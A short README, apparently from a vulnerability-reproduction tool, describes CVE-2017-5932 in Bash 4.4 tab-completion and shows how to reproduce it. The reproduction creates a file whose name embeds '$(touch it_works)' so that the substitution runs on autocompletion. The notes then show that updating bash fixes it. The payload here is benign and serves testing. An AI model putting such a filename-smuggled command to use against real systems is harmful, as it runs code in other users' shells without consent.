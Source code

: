 # CVE-2017-5932

### Description
The path autocompletion feature in Bash 4.4 allows local users to gain privileges via a crafted filename starting with a " (double quote) character and a command substitution metacharacter.
### Command to run
```shell
python decret.py --number 2017-5932 --release bullseye --directory bash --selenium
```

### Simple testing method

```shell
su toto
cd
touch '" $(touch it_works)'
rm \" $(touch it_works) ^C #Type auto-completion key after " and then cancel 
ls
```
The file `it_works` is created.

If bash is updated :
```shell
apt-get install bash
```
The vulnerability is fixed.